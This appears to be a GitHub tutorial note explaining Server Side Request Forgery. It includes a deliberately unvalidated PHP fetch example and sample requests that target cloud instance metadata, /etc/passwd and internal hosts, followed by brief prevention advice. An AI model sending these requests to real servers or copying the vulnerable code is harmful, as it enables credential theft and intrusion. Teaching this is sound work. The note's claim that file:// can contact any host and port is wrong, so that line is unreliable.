 # Server Side Request Forgery (SSRF)

## SSRF Vulnerability

![SSRF](../photo/ssrf1.png)

- SSRF stands for Server Side Request Forgery. It is a type of web application vulnerability that allows an attacker to make unauthorized requests from a vulnerable server to other internal or external servers.


- result in unauthorized actions or access to data within the organization either in the vulnerable application itself or on other back-end systems that the application can communicate with.

## OWASP Top 10 vulnerability 
![Top-10](../photo/ssrf2.png)


## Example Vulnerable Code

```php
<?php

/**
* Check if the 'url' GET variable is set
* Example - http://localhost/?url=http://testphp.vulnweb.com/images/logo.gif
*/
if (isset($_GET['url'])){
$url = $_GET['url'];

/**
* Send a request vulnerable to SSRF since
* no validation is being done on $url
* before sending the request
*/
$image = fopen($url, 'rb');

/**
* Send the correct response headers
*/
header("Content-Type: image/png");

/**
* Dump the contents of the image
*/
fpassthru($image);}
```
[https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/](https://www.acunetix.com/blog/articles/server-side-request-forgery-vulnerability/)

- In the above example, the attacker has full control of the url parameter. They can make arbitrary GET requests to any website on the Internet and to resources on the server (localhost).

# Type of `SSRF`

- Regular SSRF (In Band)
- Blind SSRF (Out-of-Band)



## Impact of `SSRF`

- Criminals usually use SSRF attacks to target internal systems that are behind firewalls and are not accessible from the external network

- Sensitive Data Exposuer

- Cross-Site Port Attack (XSPA)

- Denail of Service (DoS)
- Remote Code Execution

## Exploitation

- Determin if a port number can be specified
- Internet network scan
- Attempt to connect to loopback address

## Example Attack Code

```php
GET /?url=http://169.254.169.254/latest/meta-data/ HTTP/1.1
Host: example.com
```
- Attackers can also use SSRF to make requests to `other internal resources` that the web server has access to, which are not publicly available. For example, they can access cloud service instance metadata like `AWS/Amazon EC2 and OpenStack`.

```php
GET /?url=file:///etc/passwd HTTP/1.1
Host: example.com
```

```php
GET /?url=http://localhost/admin HTTP/1.1
Host: example.com
```
```php
GET /?url=http://192.168.1.10/robots.txt HTTP/1.1
Host: example.com
```

- Some applications may enable attackers to use more exotic URL schemas

- the attacker can use the `file://` URL schema to make requests to any host on any port and send custom data.

## How to prevent `SSRF`

- Application Layer Defense
	- Sanitize and validate all input data
	- Enforce the url schema with positive allow list
	- Disable HTTP Redirection
- Network Layer Defend
	- Separate networks to reduce impact
	
